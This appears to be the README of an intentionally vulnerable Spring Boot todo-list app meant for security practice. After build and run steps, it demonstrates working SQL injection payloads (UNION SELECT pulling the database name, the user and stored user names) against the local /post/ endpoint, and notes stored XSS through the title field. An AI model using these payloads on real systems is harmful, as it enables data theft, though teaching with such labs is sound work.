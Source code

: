 # Non-Secure TodoList

Todo list have got existing vulnerability

## Getting Started


### How to Run

#### Build Spring Boot Project with Maven
To be able to run your Spring Boot app you will need to first build it. To build and package a Spring Boot app into a single executable Jar file with a Maven, use the below command. You will need to run it from the project folder which contains the pom.xml file.
  ```
  maven package
  ```
  or you can also use
  ```
  mvn install
  ```
  
#### Run Spring Boot app with java -jar command
To run your Spring Boot app from a command line in a Terminal window you can you the java -jar command. This is provided your Spring Boot app was packaged as an executable jar file.  

 ```
 java -jar target/todolist-0.0.1-SNAPSHOT.jar
 ```

#### Run Spring Boot app using Maven
You can also use Maven plugin to run your Spring Boot app. Use the below example to run your Spring Boot app with Maven plugin
  
  ```
  mvn spring-boot:run
  ```


## Running the tests

- Project will start on 8080 port and you can access localhost:8080
- You must register for add post

### SQL INJECTION

- After adding article , go to article detail page for sql injection (lhttp://localhost/post/1)
- Some sql injection script ()

```
  http://localhost:8080/post/1 order by 6--
```

Now we will use Union select statement over here.

```
  http://localhost:8080/post/-1 order by 6--
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows

| Variable/Function  | Output |
| ------------- | ------------- |
| @@hostname  | Current Hostname  |
| @@tmpdir  | Tept Directory  |
| @@datadir  | Data Directory  |
| @@version  | Version of DB  |
| @@basedir  | Base Directory  |
| user()  | Current User  |
| database()  | Current Database  |
| version()  | Version  |
| schema()  | current Database  |
| UUID()  | System UUID key  |
| current_user()  | Current User  |
| system_user()  | Current System User  |
| session_user  | Current Session User  |
| @@GLOBAL.have_symlink  | Check if Symlink Enabled or Disabled  |
| @@GLOBAL.have_ssl  | Check if it have ssl or not  |


As we know that third is the column which is getting printed so now we will use the above functions on place of that columns only.

```
To get the Current Database Name
http://localhost:8080/post/-1 union select 1,2,database(),4,5,6--
```

```
To get the Current User
http://localhost:8080/post/-1 union select 1,2,user(),4,5,6--
```

Query : Select column1 from tablename

```
http://localhost:8080/post/-1 union Select 1,2,concat(USER_NAME),4,5,6 from User limit 0,1--

```

This allows access to other user information.

### Cross Site Scripting (XSS)

### Stored/Persistent XSS
 Where the malicious string originates from the website's database.
 
 -You can add scripting code into title input then you execute this code.
 



